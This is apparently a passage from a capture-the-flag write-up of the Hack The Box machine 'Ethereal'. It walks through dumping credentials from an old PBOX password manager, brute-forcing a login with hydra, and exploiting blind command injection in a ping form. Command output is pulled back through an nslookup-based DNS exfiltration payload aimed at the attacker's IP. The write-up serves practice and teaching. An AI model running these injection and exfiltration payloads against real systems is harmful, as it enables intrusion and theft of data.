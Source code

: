 In the FDISK.zip archive we find a file called "FDISK" which appears to be a disk image:

```
FDISK: DOS/MBR boot sector, code offset 0x3c+2, OEM-ID "MSDOS5.0", root entries 224, sectors 2880 (volumes <=32 MB), sectors/FAT 9, sectors/track 18, serial number 0x5843af55, unlabeled, FAT (12 bit), followed by FAT
```

We open it with `testdisk` and see that it contains a single folder called PBOX:

![](htb_ethereal_testdisk.png)

After extracting the folder we examine the PBOX.exe binary with `file` and notice that it is a ms-dos binary. Searching for tool online we find that PBOX is an old password manager. We start `dosbox` and mount the PBOX folder with `mount c PBOX`. When running PBOX.exe inside dosbox it immediately asks for a master password before starting up properly, so we try several default passwords and eventually get the right one with "password". We can now view the password entries in the manager:

![](htb_ethereal_pbox.png)

Dumping every entry results in the following credentials:

```
databases: 7oth3B@tC4v3!
msdn: alan@ethereal.co / P@ssword1!
learning: alan2 / learn!ng!
ftp drop: Watch3r
backup: alan / Ex3cutiv3Backups
websiteuploads: R3lea5eR3@dy#
truecrypt: Password8
management server: !C414m17y57r1k3s4g41n!
svn: alan53: Ch3ck1ToU7>
```

On port 8080 we have a login where we can try them out. To save some time I used hydra to try all possible combinations of the obtained credentials:

```
hydra -L user.txt -P pass.txt -s 8080 ethereal.htb http-get / 
[8080][http-get] host: ethereal.htb   login: alan   password: !C414m17y57r1k3s4g41n!
```

We get a new website which can be used to test your connection by entering an ip address, triggering the ping command on submit. This seems like a classic place for command injection. However trying several different injection strings leads to no visible results.

To confirm that we have indeed a way of injection commands we send `10.10.14.4 && ping 10.10.14.4` and inspect the traffic in wireshark, which shows that our host is being pinged twice! This means we have blind command injection as we can not see any direct results. To actually see the results of our commands we have to use a side channel to retrieve the responses. Trying various ways to get responses back we finally find that it is possible to get DNS queries from the host when we issue a command like this: `nslookup "xct" 10.10.14.4`, which looks up the record "xct" on our attacker box. If we can replace the string "xct" with the output of a command we can get its output back from the server. To achieve that I decided on the following command:

```
p||(for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('dir') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" 10.10.14.4)
```
